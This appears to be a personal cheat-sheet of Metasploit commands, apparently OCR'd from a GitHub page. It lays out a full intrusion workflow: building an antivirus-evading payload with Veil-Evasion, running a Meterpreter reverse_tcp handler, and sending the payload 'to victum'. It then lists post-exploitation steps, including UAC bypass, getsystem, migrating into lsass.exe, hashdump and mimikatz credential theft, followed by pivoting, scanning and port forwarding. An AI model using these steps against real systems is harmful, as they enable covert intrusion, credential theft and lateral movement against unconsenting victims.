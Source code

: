 # Metasploit-Notes
Pre Exploitation:

Use /usr/share/veil-evasion to create undetected payload
use powershell/meterpreter/rev_tcp
set up port forwarding on your router to connect a port to your local machine
load auto_add_route

ls /usr/share/metasploit-framework/plugins

use exploit/multi/handler
show payloads
set payload windows/meterpreter/reverse_tcp
set lhost <your local ip>
set exitonsession false
exploit -j

send veil-evasion payload /root/veil-output/source/output.bat to victum



Post Exploitation:

sessions -i <session>

background

use exploits/windows/local/bypassuac 

use exploits/windows/local/bypassuac_inject

go to new session

getsystem

ps

migrate process to lsass.exe

hashdump

load mimikatz 

kerberos

if not using autoroute use command 'route add subnet netmask session#' -background -> route print -> make sure route has right session number


run arp_scanner -r <ip range>

run auxiliary/scanner/portscan/tcp to scan pivot network

portfwd add -l 8000<localport> -p 80<remote port> -r <remote machine IP>

go to web browser and type in 127.0.0.1:8000

able to use this with ssh, telnet, etc.

** you can type 'load' or 'run' and hit tab complete to list extensions and modules**
